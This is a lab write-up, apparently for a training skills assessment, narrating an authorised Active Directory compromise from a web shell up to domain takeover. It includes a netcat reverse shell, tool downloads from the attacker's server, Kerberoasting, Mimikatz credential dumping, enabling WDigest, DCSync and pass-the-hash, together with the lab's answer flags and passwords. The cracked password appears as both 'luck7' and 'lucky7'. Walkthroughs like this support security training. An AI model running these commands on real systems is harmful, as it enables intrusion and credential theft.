# Skills Assessment Part 1

We are provided with a password-protected web shell (credentials `admin:My_W3bsH3ll_P@ssw0rd!`) in the `/uploads` directory.

Our client, Inlanefreight, authorised us to see how far we can take our foothold and see what types of high-risk issues exist within the AD environment. We will aim to achieve domain compromise.

### Information
Provided target: `10.129.202.242`<br>
My IP: `10.10.16.9`

## Approach

To access the web shell, we can go to http://10.129.202.242/uploads/antak.aspx and provide the necessary credentials. This gives us a PowerShell to work with.

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

To obtain the flag on the administrator's desktop, we can do:
```powershell
PS > type C:\Users\administrator\Desktop\flag.txt
```
<br>
The flag is `JusT_g3tt1ng_st@rt3d!`.

**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

To get a more stable shell, we can set up a reverse shell using [nc.exe](https://github.com/int0x33/nc.exe/). ([Reference](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/))

Before that, I will set up a Python3 FTP server on my machine so that I can transfer files to my target.<br>
On my machine:
```bash
sudo python3 -m pyftpdlib --port 21
```
On Windows target:
```powershell
## Create C:\Tools directory
PS > New-Item -Path "C:\Tools" -ItemType Directory

## Transfer file from my machine
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/nc.exe', 'C:\Tools\nc.exe')
```
Now, we can set up a reverse shell.<br>
On my machine:
```bash
## set up a listener on port 1234
sudo nc -nlvp 1234
```
On Windows target:
```powershell
PS > C:\Tools\nc.exe -e powershell 10.10.16.9 1234
```


To find the user associated with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433, I ran:
```powershell
PS > setspn.exe -Q */*
```
<br>
Hence, I found that `svc_sql` is associated with that SPN.

**Crack the account's password. Submit the cleartext value.**

Through the FTP server as shown above, I will transfer [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon) to perform kerberoasting on `svc_sql` and export their Kerberos ticket.
```powershell
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/PowerView.ps1', 'C:\Tools\PowerView.ps1')
PS > Import-Module ./PowerView.ps1
```
I will also transfer [Mimikatz](https://github.com/ParrotSec/mimikatz) to the target.
```powershell
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/mimikatz/x64/mimikatz.exe', 'C:\Tools\mimikatz.exe')
```
Now, we will target `svc_sql` and obtain their Kerberos ticket.
```powershell
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
```
<br>
We can then copy the hash to a file, `svc_sql_hash`, on our machine and crack it with Hashcat.
```bash
hashcat -m 13100 svc_sql_hash /usr/share/wordlists/rockyou.txt

## to view results
hashcat -m 13100 --show svc_sql_hash
```
<br>
We found the cleartext password for `svc_sql`, which is `luck7`.

**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

Let's first find out the IP address of MS01 using `ping MS01`.<br>
<br>
We can see that the IP address of MS01 is `172.16.6.50`.

To access MS01 from my machine, I will be using [Chisel](https://github.com/jpillora/chisel?tab=readme-ov-file). We can transfer Chisel with the same FTP server as set up before.
```powershell
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/chisel.exe', 'C:\Tools\chisel.exe')
```
To set up Chisel:

On our machine:
```bash
./chisel client -v 10.129.202.242:1111 socks
```
On Windows target:
```powershell
PS > .\chisel.exe server -v -p 1111 --socks5
```
<br>
With this, we successfully set up Chisel and now can access MS01 by adding `proxychains` in front of our commands.

We can then RDP to MS01 with `svc_sql:luck7`.
```bash
proxychains xfreerdp3 /u:svc_sql /p:lucky7 /v:172.16.6.50 /dynamic-resolution
```
With this, I used PowerShell and got the flag on the Adminstrator's desktop.<br>
<br>
The flag is `spn$_r0ast1ng_on_@n_0p3n_f1re`.

**Find cleartext credentials for another domain user. Submit the username as your answer.**

First, we can transfer all the tools from `10.129.202.242` to `MS01`.<br>
On `10.129.202.242`:
```powershell
## Setting up PSCredential Object
PS > $password = ConvertTo-SecureString "lucky7" -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential("svc_sql", $password)

## Setting up PS Session Object
PS > $Session = New-PSSession -ComputerName MS01 -Credential $cred

## Copying directory through the PS Session
PS > Copy-Item "C:\Tools" -Destination "C:\Tools" -Recurse -ToSession $Session
```

With this, we can use Mimikatz on MS01 with an elevated PowerShell.<br>
I will be extracting credentials from memory using `sekurlsa::logonpasswords`.<br>
<br>
Looking through the output, I noticed something interesting. <br>


I found a domain user, `tpetty`.

**Submit this user's cleartext password.**

We have tpetty's NT hash, `fd37b6fec5704cadabb319cebf9e3a3a`. Let's try to crack it with Hashcat.<br>
First, I saved the NT hash to `tpetty_ntlm.txt`
```bash
hashcat -m 1000 tpetty_ntlm.txt /usr/share/wordlists/rockyou.txt
```
However, we are not able to crack the password.

I know that WDigest enables credentials to be cached by LSASS in cleartext.<br>
To check if WDigest is enabled (value should be 1):
```powershell
PS > reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```
To enable WDigest:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
<br>

With this, we restart `MS01`, then run Mimikatz and `sekurlsa::logonpasswords` again and we found `tpetty`'s credentials.<br>


The password for `tpetty` is `Sup3rS3cur3D0m@inU2eR`.

**What attack can this user perform?**

First, I will perform Access Control List (ACL) enumeration. Remember to activate PowerView with `Import-Module .\PowerView.ps1`.

```powershell
PS > Convert-NameToSid tpetty
PS > Get-DomainObjectAcl -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
<br>
We can see that `tpetty` has "DS-Replication-Get-Changes-In-Filtered-Set", "DS-Replication-Get-Changes", and "DS-Replication-Get-Changes-All" in his ACL.

So, the user can perform a DCSync attack.

**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

To perform a DCSync attack, we need to run as `tpetty`. We can do so with `runas.exe`.
```powershell
PS > runas /netonly /user:INLANEFREIGHT\tpetty powershell
```
This creates a powershell that is running under the domain user `tpetty`.<br>
<br>
With this, we can run Mimikatz, then perform the DCSync attack on the Administrator account.
```text
PS > .\mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT/Administrator
```
<br>
This allowed me to obtain the Administrator's NT hash, `27dedb1dab4d8545c6e1c66fba077da0`.

We can now perform Pass-The-Hash and use the Administrator's hash to log in to DC01.<br>
Using `ping DC01`, I found out that the IP address of DC01 is `172.16.6.3`.

With this, I can use `evil-winrm` to access a PS session on DC01 from my machine.
```bash
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```
Then, I was able to obtain the flag located on the Desktop.<br>


The contents of flag.txt on the Administrator Desktop on DC01 is `r3plicat1on_m@st3r!`.